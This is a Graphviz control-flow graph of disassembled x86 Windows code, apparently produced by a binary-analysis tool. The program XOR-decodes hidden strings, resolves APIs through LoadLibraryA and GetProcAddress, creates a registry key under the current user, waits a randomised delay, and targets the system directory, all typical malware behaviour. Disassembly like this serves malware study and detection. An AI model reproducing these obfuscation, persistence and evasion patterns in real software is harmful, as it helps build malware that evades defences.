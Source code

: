 digraph G {
node[shape=rectangle,style=filled,fillcolor=lightsteelblue,color=lightsteelblue]
bgcolor="transparent"
a0x00401040subl_0x60UINT8_esp[label="start\nsubl $0x60<UINT8>, %esp",fillcolor="orange",color="lightgrey"];
a0x00401043xorl_eax_eax[label="0x00401043\nxorl %eax, %eax"];
a0x00401045jmp_0x00401050[label="0x00401045\njmp 0x00401050"];
a0x00401050movb_0x402038eax__cl[label="0x00401050\nmovb 0x402038(%eax), %cl"];
a0x00401056movb_cl_0x4035b0eax_[label="0x00401056\nmovb %cl, 0x4035b0(%eax)"];
a0x0040105cincl_eax[label="0x0040105c\nincl %eax"];
a0x0040105dtestb_cl_cl[label="0x0040105d\ntestb %cl, %cl"];
a0x0040105fjne_0x00401050[label="0x0040105f\njne 0x00401050"];
a0x00401061movl_0x4035b0UINT32_eax[label="0x00401061\nmovl $0x4035b0<UINT32>, %eax"];
a0x00401066leal_0x1eax__edx[label="0x00401066\nleal 0x1(%eax), %edx"];
a0x00401069leal_esp__esp[label="0x00401069\nleal (%esp), %esp"];
a0x00401070movb_eax__cl[label="0x00401070\nmovb (%eax), %cl"];
a0x00401072incl_eax[label="0x00401072\nincl %eax"];
a0x00401073testb_cl_cl[label="0x00401073\ntestb %cl, %cl"];
a0x00401075jne_0x00401070[label="0x00401075\njne 0x00401070"];
a0x00401077subl_edx_eax[label="0x00401077\nsubl %edx, %eax"];
a0x00401079pushl_eax[label="0x00401079\npushl %eax"];
a0x0040107apushl_0x4035b0UINT32[label="0x0040107a\npushl $0x4035b0<UINT32>"];
a0x0040107fpushl_0x402140UINT32[label="0x0040107f\npushl $0x402140<UINT32>"];
a0x00401084call_0x00401000[label="0x00401084\ncall 0x00401000"];
a0x00401000pushl_esi[label="0x00401000\npushl %esi"];
a0x00401001movl_0x10esp__esi[label="0x00401001\nmovl 0x10(%esp), %esi"];
a0x00401005xorl_eax_eax[label="0x00401005\nxorl %eax, %eax"];
a0x00401007testl_esi_esi[label="0x00401007\ntestl %esi, %esi"];
a0x00401009jbe_0x00401032[label="0x00401009\njbe 0x00401032"];
a0x0040100bmovl_0xcesp__ecx[label="0x0040100b\nmovl 0xc(%esp), %ecx"];
a0x0040100fpushl_ebx[label="0x0040100f\npushl %ebx"];
a0x00401010pushl_edi[label="0x00401010\npushl %edi"];
a0x00401011movl_0x10esp__edi[label="0x00401011\nmovl 0x10(%esp), %edi"];
a0x00401015movb_eaxecx__bl[label="0x00401015\nmovb (%eax,%ecx), %bl"];
a0x00401018movl_eax_edx[label="0x00401018\nmovl %eax, %edx"];
a0x0040101aandl_0x3UINT8_edx[label="0x0040101a\nandl $0x3<UINT8>, %edx"];
a0x0040101dmovb_edxedi__dl[label="0x0040101d\nmovb (%edx,%edi), %dl"];
a0x00401020xorb_dl_bl[label="0x00401020\nxorb %dl, %bl"];
a0x00401022movb_bl_eaxecx_[label="0x00401022\nmovb %bl, (%eax,%ecx)"];
a0x00401025incl_eax[label="0x00401025\nincl %eax"];
a0x00401026cmpl_esi_eax[label="0x00401026\ncmpl %esi, %eax"];
a0x00401028jb_0x00401015[label="0x00401028\njb 0x00401015"];
a0x0040102apopl_edi[label="0x0040102a\npopl %edi"];
a0x0040102bpopl_ebx[label="0x0040102b\npopl %ebx"];
a0x0040102cmovb_0x0UINT8_ecxesi_[label="0x0040102c\nmovb $0x0<UINT8>, (%ecx,%esi)"];
a0x00401030popl_esi[label="0x00401030\npopl %esi"];
a0x00401031ret[label="0x00401031\nret"];
a0x00401089addl_0xcUINT8_esp[label="0x00401089\naddl $0xc<UINT8>, %esp"];
a0x0040108cxorl_eax_eax[label="0x0040108c\nxorl %eax, %eax"];
a0x0040108emovl_edi_edi[label="0x0040108e\nmovl %edi, %edi"];
a0x00401090movb_0x402080eax__cl[label="0x00401090\nmovb 0x402080(%eax), %cl"];
a0x00401096movb_cl_0x403010eax_[label="0x00401096\nmovb %cl, 0x403010(%eax)"];
a0x0040109cincl_eax[label="0x0040109c\nincl %eax"];
a0x0040109dtestb_cl_cl[label="0x0040109d\ntestb %cl, %cl"];
a0x0040109fjne_0x00401090[label="0x0040109f\njne 0x00401090"];
a0x004010a1movl_0x403010UINT32_eax[label="0x004010a1\nmovl $0x403010<UINT32>, %eax"];
a0x004010a6leal_0x1eax__edx[label="0x004010a6\nleal 0x1(%eax), %edx"];
a0x004010a9leal_esp__esp[label="0x004010a9\nleal (%esp), %esp"];
a0x004010b0movb_eax__cl[label="0x004010b0\nmovb (%eax), %cl"];
a0x004010b2incl_eax[label="0x004010b2\nincl %eax"];
a0x004010b3testb_cl_cl[label="0x004010b3\ntestb %cl, %cl"];
a0x004010b5jne_0x004010b0[label="0x004010b5\njne 0x004010b0"];
a0x004010b7subl_edx_eax[label="0x004010b7\nsubl %edx, %eax"];
a0x004010b9pushl_eax[label="0x004010b9\npushl %eax"];
a0x004010bapushl_0x403010UINT32[label="0x004010ba\npushl $0x403010<UINT32>"];
a0x004010bfpushl_0x402140UINT32[label="0x004010bf\npushl $0x402140<UINT32>"];
a0x004010c4call_0x00401000[label="0x004010c4\ncall 0x00401000"];
a0x004010c9addl_0xcUINT8_esp[label="0x004010c9\naddl $0xc<UINT8>, %esp"];
a0x004010ccxorl_eax_eax[label="0x004010cc\nxorl %eax, %eax"];
a0x004010cemovl_edi_edi[label="0x004010ce\nmovl %edi, %edi"];
a0x004010d0movb_0x40205ceax__cl[label="0x004010d0\nmovb 0x40205c(%eax), %cl"];
a0x004010d6movb_cl_0x403338eax_[label="0x004010d6\nmovb %cl, 0x403338(%eax)"];
a0x004010dcincl_eax[label="0x004010dc\nincl %eax"];
a0x004010ddtestb_cl_cl[label="0x004010dd\ntestb %cl, %cl"];
a0x004010dfjne_0x004010d0[label="0x004010df\njne 0x004010d0"];
a0x004010e1movl_0x403338UINT32_eax[label="0x004010e1\nmovl $0x403338<UINT32>, %eax"];
a0x004010e6leal_0x1eax__edx[label="0x004010e6\nleal 0x1(%eax), %edx"];
a0x004010e9leal_esp__esp[label="0x004010e9\nleal (%esp), %esp"];
a0x004010f0movb_eax__cl[label="0x004010f0\nmovb (%eax), %cl"];
a0x004010f2incl_eax[label="0x004010f2\nincl %eax"];
a0x004010f3testb_cl_cl[label="0x004010f3\ntestb %cl, %cl"];
a0x004010f5jne_0x004010f0[label="0x004010f5\njne 0x004010f0"];
a0x004010f7subl_edx_eax[label="0x004010f7\nsubl %edx, %eax"];
a0x004010f9pushl_eax[label="0x004010f9\npushl %eax"];
a0x004010fapushl_0x403338UINT32[label="0x004010fa\npushl $0x403338<UINT32>"];
a0x004010ffpushl_0x402140UINT32[label="0x004010ff\npushl $0x402140<UINT32>"];
a0x00401104call_0x00401000[label="0x00401104\ncall 0x00401000"];
a0x00401109addl_0xcUINT8_esp[label="0x00401109\naddl $0xc<UINT8>, %esp"];
a0x0040110cxorl_eax_eax[label="0x0040110c\nxorl %eax, %eax"];
a0x0040110emovl_edi_edi[label="0x0040110e\nmovl %edi, %edi"];
a0x00401110movb_0x402088eax__cl[label="0x00401110\nmovb 0x402088(%eax), %cl"];
a0x00401116movb_cl_0x40343ceax_[label="0x00401116\nmovb %cl, 0x40343c(%eax)"];
a0x0040111cincl_eax[label="0x0040111c\nincl %eax"];
a0x0040111dtestb_cl_cl[label="0x0040111d\ntestb %cl, %cl"];
a0x0040111fjne_0x00401110[label="0x0040111f\njne 0x00401110"];
a0x00401121movl_0x40343cUINT32_eax[label="0x00401121\nmovl $0x40343c<UINT32>, %eax"];
a0x00401126leal_0x1eax__edx[label="0x00401126\nleal 0x1(%eax), %edx"];
a0x00401129leal_esp__esp[label="0x00401129\nleal (%esp), %esp"];
a0x00401130movb_eax__cl[label="0x00401130\nmovb (%eax), %cl"];
a0x00401132incl_eax[label="0x00401132\nincl %eax"];
a0x00401133testb_cl_cl[label="0x00401133\ntestb %cl, %cl"];
a0x00401135jne_0x00401130[label="0x00401135\njne 0x00401130"];
a0x00401137subl_edx_eax[label="0x00401137\nsubl %edx, %eax"];
a0x00401139pushl_eax[label="0x00401139\npushl %eax"];
a0x0040113apushl_0x40343cUINT32[label="0x0040113a\npushl $0x40343c<UINT32>"];
a0x0040113fpushl_0x402140UINT32[label="0x0040113f\npushl $0x402140<UINT32>"];
a0x00401144call_0x00401000[label="0x00401144\ncall 0x00401000"];
a0x00401149addl_0xcUINT8_esp[label="0x00401149\naddl $0xc<UINT8>, %esp"];
a0x0040114cxorl_eax_eax[label="0x0040114c\nxorl %eax, %eax"];
a0x0040114emovl_edi_edi[label="0x0040114e\nmovl %edi, %edi"];
a0x00401150movb_0x40209ceax__cl[label="0x00401150\nmovb 0x40209c(%eax), %cl"];
a0x00401156movb_cl_0x40321ceax_[label="0x00401156\nmovb %cl, 0x40321c(%eax)"];
a0x0040115cincl_eax[label="0x0040115c\nincl %eax"];
a0x0040115dtestb_cl_cl[label="0x0040115d\ntestb %cl, %cl"];
a0x0040115fjne_0x00401150[label="0x0040115f\njne 0x00401150"];
a0x00401161movl_0x40321cUINT32_eax[label="0x00401161\nmovl $0x40321c<UINT32>, %eax"];
a0x00401166leal_0x1eax__edx[label="0x00401166\nleal 0x1(%eax), %edx"];
a0x00401169leal_esp__esp[label="0x00401169\nleal (%esp), %esp"];
a0x00401170movb_eax__cl[label="0x00401170\nmovb (%eax), %cl"];
a0x00401172incl_eax[label="0x00401172\nincl %eax"];
a0x00401173testb_cl_cl[label="0x00401173\ntestb %cl, %cl"];
a0x00401175jne_0x00401170[label="0x00401175\njne 0x00401170"];
a0x00401177subl_edx_eax[label="0x00401177\nsubl %edx, %eax"];
a0x00401179pushl_eax[label="0x00401179\npushl %eax"];
a0x0040117apushl_0x40321cUINT32[label="0x0040117a\npushl $0x40321c<UINT32>"];
a0x0040117fpushl_0x402140UINT32[label="0x0040117f\npushl $0x402140<UINT32>"];
a0x00401184call_0x00401000[label="0x00401184\ncall 0x00401000"];
a0x00401189addl_0xcUINT8_esp[label="0x00401189\naddl $0xc<UINT8>, %esp"];
a0x0040118cxorl_eax_eax[label="0x0040118c\nxorl %eax, %eax"];
a0x0040118emovl_edi_edi[label="0x0040118e\nmovl %edi, %edi"];
a0x00401190movb_0x4020dceax__cl[label="0x00401190\nmovb 0x4020dc(%eax), %cl"];
a0x00401196movb_cl_0x403000eax_[label="0x00401196\nmovb %cl, 0x403000(%eax)"];
a0x0040119cincl_eax[label="0x0040119c\nincl %eax"];
a0x0040119dtestb_cl_cl[label="0x0040119d\ntestb %cl, %cl"];
a0x0040119fjne_0x00401190[label="0x0040119f\njne 0x00401190"];
a0x004011a1movl_0x403000UINT32_eax[label="0x004011a1\nmovl $0x403000<UINT32>, %eax"];
a0x004011a6leal_0x1eax__edx[label="0x004011a6\nleal 0x1(%eax), %edx"];
a0x004011a9leal_esp__esp[label="0x004011a9\nleal (%esp), %esp"];
a0x004011b0movb_eax__cl[label="0x004011b0\nmovb (%eax), %cl"];
a0x004011b2incl_eax[label="0x004011b2\nincl %eax"];
a0x004011b3testb_cl_cl[label="0x004011b3\ntestb %cl, %cl"];
a0x004011b5jne_0x004011b0[label="0x004011b5\njne 0x004011b0"];
a0x004011b7subl_edx_eax[label="0x004011b7\nsubl %edx, %eax"];
a0x004011b9pushl_eax[label="0x004011b9\npushl %eax"];
a0x004011bapushl_0x403000UINT32[label="0x004011ba\npushl $0x403000<UINT32>"];
a0x004011bfpushl_0x402140UINT32[label="0x004011bf\npushl $0x402140<UINT32>"];
a0x004011c4call_0x00401000[label="0x004011c4\ncall 0x00401000"];
a0x004011c9addl_0xcUINT8_esp[label="0x004011c9\naddl $0xc<UINT8>, %esp"];
a0x004011ccxorl_eax_eax[label="0x004011cc\nxorl %eax, %eax"];
a0x004011cemovl_edi_edi[label="0x004011ce\nmovl %edi, %edi"];
a0x004011d0movb_0x4020a8eax__cl[label="0x004011d0\nmovb 0x4020a8(%eax), %cl"];
a0x004011d6movb_cl_0x403230eax_[label="0x004011d6\nmovb %cl, 0x403230(%eax)"];
a0x004011dcincl_eax[label="0x004011dc\nincl %eax"];
a0x004011ddtestb_cl_cl[label="0x004011dd\ntestb %cl, %cl"];
a0x004011dfjne_0x004011d0[label="0x004011df\njne 0x004011d0"];
a0x004011e1movl_0x403230UINT32_eax[label="0x004011e1\nmovl $0x403230<UINT32>, %eax"];
a0x004011e6leal_0x1eax__edx[label="0x004011e6\nleal 0x1(%eax), %edx"];
a0x004011e9leal_esp__esp[label="0x004011e9\nleal (%esp), %esp"];
a0x004011f0movb_eax__cl[label="0x004011f0\nmovb (%eax), %cl"];
a0x004011f2incl_eax[label="0x004011f2\nincl %eax"];
a0x004011f3testb_cl_cl[label="0x004011f3\ntestb %cl, %cl"];
a0x004011f5jne_0x004011f0[label="0x004011f5\njne 0x004011f0"];
a0x004011f7pushl_ebx[label="0x004011f7\npushl %ebx"];
a0x004011f8pushl_ebp[label="0x004011f8\npushl %ebp"];
a0x004011f9pushl_esi[label="0x004011f9\npushl %esi"];
a0x004011fapushl_edi[label="0x004011fa\npushl %edi"];
a0x004011fbsubl_edx_eax[label="0x004011fb\nsubl %edx, %eax"];
a0x004011fdpushl_eax[label="0x004011fd\npushl %eax"];
a0x004011fepushl_0x403230UINT32[label="0x004011fe\npushl $0x403230<UINT32>"];
a0x00401203pushl_0x402140UINT32[label="0x00401203\npushl $0x402140<UINT32>"];
a0x00401208call_0x00401000[label="0x00401208\ncall 0x00401000"];
a0x0040120dmovl_LoadLibraryA_kernel32_dll_ebx[label="0x0040120d\nmovl LoadLibraryA@kernel32.dll, %ebx"];
a0x00401213addl_0xcUINT8_esp[label="0x00401213\naddl $0xc<UINT8>, %esp"];
a0x00401216pushl_0x402130UINT32[label="0x00401216\npushl $0x402130<UINT32>"];
a0x0040121bcall_ebx[label="0x0040121b\ncall %ebx"];
LoadLibraryA_kernel32_dll[label="LoadLibraryA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040121dmovl_GetProcAddress_kernel32_dll_esi[label="0x0040121d\nmovl GetProcAddress@kernel32.dll, %esi"];
a0x00401223movl_eax_edi[label="0x00401223\nmovl %eax, %edi"];
a0x00401225testl_edi_edi[label="0x00401225\ntestl %edi, %edi"];
a0x00401227movl_edi_0x14esp_[label="0x00401227\nmovl %edi, 0x14(%esp)"];
a0x0040122bje_0x00401261[label="0x0040122b\nje 0x00401261"];
a0x0040122dpushl_0x402120UINT32[label="0x0040122d\npushl $0x402120<UINT32>"];
a0x00401232pushl_edi[label="0x00401232\npushl %edi"];
a0x00401233call_esi[label="0x00401233\ncall %esi"];
GetProcAddress_kernel32_dll[label="GetProcAddress@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401235pushl_0x402110UINT32[label="0x00401235\npushl $0x402110<UINT32>"];
a0x0040123apushl_edi[label="0x0040123a\npushl %edi"];
a0x0040123bmovl_eax_0x004036b8[label="0x0040123b\nmovl %eax, 0x004036b8"];
a0x00401240call_esi[label="0x00401240\ncall %esi"];
a0x00401242pushl_0x402100UINT32[label="0x00401242\npushl $0x402100<UINT32>"];
a0x00401247pushl_edi[label="0x00401247\npushl %edi"];
a0x00401248movl_eax_0x004036b4[label="0x00401248\nmovl %eax, 0x004036b4"];
a0x0040124dcall_esi[label="0x0040124d\ncall %esi"];
a0x0040124fpushl_0x4020f4UINT32[label="0x0040124f\npushl $0x4020f4<UINT32>"];
a0x00401254pushl_edi[label="0x00401254\npushl %edi"];
a0x00401255movl_eax_0x004036bc[label="0x00401255\nmovl %eax, 0x004036bc"];
a0x0040125acall_esi[label="0x0040125a\ncall %esi"];
a0x0040125cmovl_eax_0x004036c0[label="0x0040125c\nmovl %eax, 0x004036c0"];
a0x00401261pushl_0x40321cUINT32[label="0x00401261\npushl $0x40321c<UINT32>"];
a0x00401266call_ebx[label="0x00401266\ncall %ebx"];
a0x00401268testl_eax_eax[label="0x00401268\ntestl %eax, %eax"];
a0x0040126amovl_eax_0x18esp_[label="0x0040126a\nmovl %eax, 0x18(%esp)"];
a0x0040126eje_0x0040127d[label="0x0040126e\nje 0x0040127d"];
a0x00401270pushl_0x40343cUINT32[label="0x00401270\npushl $0x40343c<UINT32>"];
a0x00401275pushl_eax[label="0x00401275\npushl %eax"];
a0x00401276call_esi[label="0x00401276\ncall %esi"];
a0x00401278movl_eax_0x004036c4[label="0x00401278\nmovl %eax, 0x004036c4"];
a0x0040127dpushl_0x104UINT32[label="0x0040127d\npushl $0x104<UINT32>"];
a0x00401282pushl_0x403118UINT32[label="0x00401282\npushl $0x403118<UINT32>"];
a0x00401287pushl_0x0UINT8[label="0x00401287\npushl $0x0<UINT8>"];
a0x00401289movl_0x0UINT32_0x1cesp_[label="0x00401289\nmovl $0x0<UINT32>, 0x1c(%esp)"];
a0x00401291call_GetModuleFileNameA_kernel32_dll[label="0x00401291\ncall GetModuleFileNameA@kernel32.dll"];
GetModuleFileNameA_kernel32_dll[label="GetModuleFileNameA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401297movl_0x004036b8_eax[label="0x00401297\nmovl 0x004036b8, %eax"];
a0x0040129ctestl_eax_eax[label="0x0040129c\ntestl %eax, %eax"];
a0x0040129eje_0x004012fa[label="0x0040129e\nje 0x004012fa"];
a0x004012a0movl_0x004036b4_ecx[label="0x004012a0\nmovl 0x004036b4, %ecx"];
a0x004012a6testl_ecx_ecx[label="0x004012a6\ntestl %ecx, %ecx"];
a0x004012a8je_0x004012fa[label="0x004012a8\nje 0x004012fa"];
a0x004012aapushl_0x0UINT8[label="0x004012aa\npushl $0x0<UINT8>"];
a0x004012acleal_0x14esp__ecx[label="0x004012ac\nleal 0x14(%esp), %ecx"];
a0x004012b0pushl_ecx[label="0x004012b0\npushl %ecx"];
a0x004012b1pushl_0x0UINT8[label="0x004012b1\npushl $0x0<UINT8>"];
a0x004012b3pushl_0x20006UINT32[label="0x004012b3\npushl $0x20006<UINT32>"];
a0x004012b8pushl_0x0UINT8[label="0x004012b8\npushl $0x0<UINT8>"];
a0x004012bapushl_0x0UINT8[label="0x004012ba\npushl $0x0<UINT8>"];
a0x004012bcpushl_0x0UINT8[label="0x004012bc\npushl $0x0<UINT8>"];
a0x004012bepushl_0x403230UINT32[label="0x004012be\npushl $0x403230<UINT32>"];
a0x004012c3pushl_0x80000001UINT32[label="0x004012c3\npushl $0x80000001<UINT32>"];
a0x004012c8call_eax[label="0x004012c8\ncall %eax"];
RegCreateKeyExA_advapi32_dll[label="RegCreateKeyExA@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004012catestl_eax_eax[label="0x004012ca\ntestl %eax, %eax"];
a0x004012ccjne_0x004012fa[label="0x004012cc\njne 0x004012fa"];
a0x004012facall_GetTickCount_kernel32_dll[label="0x004012fa\ncall GetTickCount@kernel32.dll"];
GetTickCount_kernel32_dll[label="GetTickCount@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401300xorl_edx_edx[label="0x00401300\nxorl %edx, %edx"];
a0x00401302movl_0x78UINT32_ecx[label="0x00401302\nmovl $0x78<UINT32>, %ecx"];
a0x00401307divl_ecx_eax[label="0x00401307\ndivl %ecx, %eax"];
a0x00401309addl_0xb4UINT32_edx[label="0x00401309\naddl $0xb4<UINT32>, %edx"];
a0x0040130fimull_0x3e8UINT32_edx_edx[label="0x0040130f\nimull $0x3e8<UINT32>, %edx, %edx"];
a0x00401315pushl_edx[label="0x00401315\npushl %edx"];
a0x00401316call_Sleep_kernel32_dll[label="0x00401316\ncall Sleep@kernel32.dll"];
Sleep_kernel32_dll[label="Sleep@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040131cpushl_0x104UINT32[label="0x0040131c\npushl $0x104<UINT32>"];
a0x00401321pushl_0x403118UINT32[label="0x00401321\npushl $0x403118<UINT32>"];
a0x00401326call_GetSystemDirectoryA_kernel32_dll[label="0x00401326\ncall GetSystemDirectoryA@kernel32.dll"];
GetSystemDirectoryA_kernel32_dll[label="GetSystemDirectoryA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040132cmovl_0x403118UINT32_eax[label="0x0040132c\nmovl $0x403118<UINT32>, %eax"];
a0x00401331leal_0x1eax__edx[label="0x00401331\nleal 0x1(%eax), %edx"];
a0x00401334movb_eax__cl[label="0x00401334\nmovb (%eax), %cl"];
a0x00401336incl_eax[label="0x00401336\nincl %eax"];
a0x00401337testb_cl_cl[label="0x00401337\ntestb %cl, %cl"];
a0x00401339jne_0x00401334[label="0x00401339\njne 0x00401334"];
a0x0040133bsubl_edx_eax[label="0x0040133b\nsubl %edx, %eax"];
a0x0040133dcmpb_0x5cUINT8_0x403117eax_[label="0x0040133d\ncmpb $0x5c<UINT8>, 0x403117(%eax)"];
a0x00401344je_0x0040137a[label="0x00401344\nje 0x0040137a"];
a0x00401346movl_0x403118UINT32_eax[label="0x00401346\nmovl $0x403118<UINT32>, %eax"];
a0x0040134bleal_0x1eax__edx[label="0x0040134b\nleal 0x1(%eax), %edx"];
a0x0040134emovl_edi_edi[label="0x0040134e\nmovl %edi, %edi"];
a0x00401350movb_eax__cl[label="0x00401350\nmovb (%eax), %cl"];
a0x00401352incl_eax[label="0x00401352\nincl %eax"];
a0x00401353testb_cl_cl[label="0x00401353\ntestb %cl, %cl"];
a0x00401355jne_0x00401350[label="0x00401355\njne 0x00401350"];
a0x00401357subl_edx_eax[label="0x00401357\nsubl %edx, %eax"];
a0x00401359cmpb_0x2fUINT8_0x403117eax_[label="0x00401359\ncmpb $0x2f<UINT8>, 0x403117(%eax)"];
a0x00401360je_0x0040137a[label="0x00401360\nje 0x0040137a"];
a0x00401362movl_0x403118UINT32_edi[label="0x00401362\nmovl $0x403118<UINT32>, %edi"];
a0x00401367decl_edi[label="0x00401367\ndecl %edi"];
a0x00401368movb_0x1edi__al[label="0x00401368\nmovb 0x1(%edi), %al"];
a0x0040136bincl_edi[label="0x0040136b\nincl %edi"];
a0x0040136ctestb_al_al[label="0x0040136c\ntestb %al, %al"];
a0x0040136ejne_0x00401368[label="0x0040136e\njne 0x00401368"];
a0x00401370movw_0x004020f0_dx[label="0x00401370\nmovw 0x004020f0, %dx"];
a0x00401377movw_dx_edi_[label="0x00401377\nmovw %dx, (%edi)"];
a0x0040137amovl_0x403010UINT32_eax[label="0x0040137a\nmovl $0x403010<UINT32>, %eax"];
a0x0040137fmovl_eax_edx[label="0x0040137f\nmovl %eax, %edx"];
a0x00401381movb_eax__cl[label="0x00401381\nmovb (%eax), %cl"];
a0x00401383incl_eax[label="0x00401383\nincl %eax"];
a0x00401384testb_cl_cl[label="0x00401384\ntestb %cl, %cl"];
a0x00401386jne_0x00401381[label="0x00401386\njne 0x00401381"];
a0x00401388movl_0x403118UINT32_edi[label="0x00401388\nmovl $0x403118<UINT32>, %edi"];
a0x0040138dsubl_edx_eax[label="0x0040138d\nsubl %edx, %eax"];
a0x0040138fdecl_edi[label="0x0040138f\ndecl %edi"];
a0x00401390movb_0x1edi__cl[label="0x00401390\nmovb 0x1(%edi), %cl"];
a0x00401393incl_edi[label="0x00401393\nincl %edi"];
a0x00401394testb_cl_cl[label="0x00401394\ntestb %cl, %cl"];
a0x00401396jne_0x00401390[label="0x00401396\njne 0x00401390"];
a0x00401398movl_eax_ecx[label="0x00401398\nmovl %eax, %ecx"];
a0x0040139ashrl_0x2UINT8_ecx[label="0x0040139a\nshrl $0x2<UINT8>, %ecx"];
a0x0040139dmovl_edx_esi[label="0x0040139d\nmovl %edx, %esi"];
a0x0040139frepz_movsl_ds_esi__es_edi_[label="0x0040139f\nrepz movsl %ds:(%esi), %es:(%edi)"];
a0x004013a1movl_eax_ecx[label="0x004013a1\nmovl %eax, %ecx"];
a0x004013a3andl_0x3UINT8_ecx[label="0x004013a3\nandl $0x3<UINT8>, %ecx"];
a0x004013a6repz_movsb_ds_esi__es_edi_[label="0x004013a6\nrepz movsb %ds:(%esi), %es:(%edi)"];
a0x004013a8pushl_0x403470UINT32[label="0x004013a8\npushl $0x403470<UINT32>"];
a0x004013adxorl_eax_eax[label="0x004013ad\nxorl %eax, %eax"];
a0x004013afmovl_0x50UINT32_ecx[label="0x004013af\nmovl $0x50<UINT32>, %ecx"];
a0x004013b4movl_0x403470UINT32_edi[label="0x004013b4\nmovl $0x403470<UINT32>, %edi"];
a0x004013b9pushl_0x403118UINT32[label="0x004013b9\npushl $0x403118<UINT32>"];
a0x004013berepz_stosl_eax_es_edi_[label="0x004013be\nrepz stosl %eax, %es:(%edi)"];
a0x004013c0call_FindFirstFileA_kernel32_dll[label="0x004013c0\ncall FindFirstFileA@kernel32.dll"];
FindFirstFileA_kernel32_dll[label="FindFirstFileA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004013c6cmpl_0xffffffffUINT8_eax[label="0x004013c6\ncmpl $0xffffffff<UINT8>, %eax"];
a0x004013c9movl_eax_0x004036c8[label="0x004013c9\nmovl %eax, 0x004036c8"];
a0x004013ceje_0x004013f7[label="0x004013ce\nje 0x004013f7"];
a0x004013f7pushl_0x4020e4UINT32[label="0x004013f7\npushl $0x4020e4<UINT32>"];
a0x004013fccall_ebx[label="0x004013fc\ncall %ebx"];
